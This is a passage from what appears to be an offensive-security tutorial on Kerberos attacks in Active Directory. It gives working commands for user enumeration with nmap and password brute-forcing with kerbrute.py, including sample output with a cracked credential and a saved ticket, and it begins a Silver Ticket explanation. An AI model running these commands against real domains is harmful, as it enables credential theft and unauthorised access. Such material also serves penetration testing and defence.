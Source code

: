 
The syntax for `krb5-enum-users` is as follows

```
nmap -verbose 4 -p 88 --script krb5-enum-users --script-args krb5-enum-users-realm='kerbrealm',userdb=user.txt <dc ip>
```



#### [](#header-4)kerbrute.py 



There is a great script developed by `TarlogicSecurity` entitled `kerbrute.py` that uses Impacket Libaries to to brute force and enumerate `Kerberos` users.

*https://github.com/TarlogicSecurity/kerbrute*



```python
m0chan@kali:/scripts/> python kerbrute.py -domain m0chanAD.local -users usernames.txt -passwords pass.txt -outputfile foundusers.txt

Impacket v0.9.20 - Copyright 2018 SecureAuth Corporation
[*] Valid user => m0chan
[*] Valid user => jack
[+] M0CHAN => jack:jack123
[*] Saved TGT in jack.ccache
[*] Saved discovered passwords in foundusers.txt
```



Similar to Rubeus it will also request a `TGT` and save it in `.ccache` format which is Linux's Kerberos ticket format which you can later inject to gain access to network resources etc. 



****



# [](#header-1)Silver Ticket	



### [](#header-3)Introduction

if you are interested in InfoSec it's almost inevitable that you have heard of Silver Tickets and Golden Tickets at some points, most think that Silver Tickets are nothing compared to Golden Tickets but they are mistaken, silver tickets are just as dangerous and even more stealthier. 

*This is because giving the nature of the attack there is no communication with the DC hence the stealth.*



Silver tickets are essential forged `TGS` tickets which grant you access to a particular service aka **service-tickets**
